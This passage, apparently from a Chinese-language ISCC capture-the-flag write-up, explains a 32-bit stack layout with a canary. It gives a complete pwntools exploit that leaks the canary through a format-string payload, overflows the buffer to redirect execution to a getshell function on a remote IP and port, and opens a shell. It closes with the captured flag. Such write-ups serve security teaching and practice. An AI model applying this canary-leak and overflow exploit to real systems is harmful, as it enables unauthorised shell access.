
算出偏移(~~应该可以这么说吧？~~)后我们就可以写exp来拿shell了。  
我们还要注意栈里的结构是这样的(主要是经典 32 位 x86 程序的调用约定（cdecl）决定的):  
buf  
canary  
padding (8 bytes)  
saved ebp  
return address  
因此payload 结构：  
0x64 bytes   -> 填满 buf  
4 bytes      -> 正确 canary  
12 bytes     -> padding + saved ebp  
4 bytes      -> 覆盖返回地址  
所以最终exp应该这么写：
```python
from pwn import *
import re
context(os='linux', arch='i386')
context.log_level = 'debug'
HOST = '39.96.193.120'
PORT = 10018
GETSHELL = 0x080491c6
io = remote(HOST, PORT)
io.recvuntil(b'Hello Hacker!\n')
payload1 = b'%31$p.END\x00'
io.send(payload1)

leak_data = io.recvuntil(b'.END', drop=True)
log.info(f'leak_data = {leak_data}')

m = re.search(rb'0x[0-9a-fA-F]+', leak_data)
if not m:
    log.failure('failed to leak canary')
    exit()

canary = int(m.group(0), 16)
log.success(f'canary = {hex(canary)}')
log.success(f'getshell = {hex(GETSHELL)}')
payload2 = b'A' * 0x64 
payload2 += p32(canary)
payload2 += b'B' * 12 
payload2 += p32(GETSHELL)
io.send(payload2)
io.interactive()
```

ISCC{a697a6be-faed-4359-aa17-06d9fd12e81c}